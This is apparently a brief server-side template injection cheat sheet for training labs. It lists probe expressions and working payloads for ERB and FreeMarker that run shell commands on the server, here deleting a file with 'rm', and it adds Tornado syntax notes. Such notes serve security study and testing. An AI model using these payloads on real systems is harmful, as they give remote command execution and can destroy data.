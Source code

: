 ### Template engines

---

> ### ERB Template

![image](https://github.com/user-attachments/assets/a450ff01-9658-4007-bde3-69242f5425e3)  

Identify - `<%= someExpression %>`  
`<%= 7*7 %>` confirms there is SSTI,  
```py
payload - `<%= system("rm /home/carlos/morale.txt") %>` # Modify as per requirement
```

---

> ### Tornado Template

```py
{% expression %} - commands using python
{{expression}} - regular expression
```

---

> ### Freemaker Template

```py
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }
```

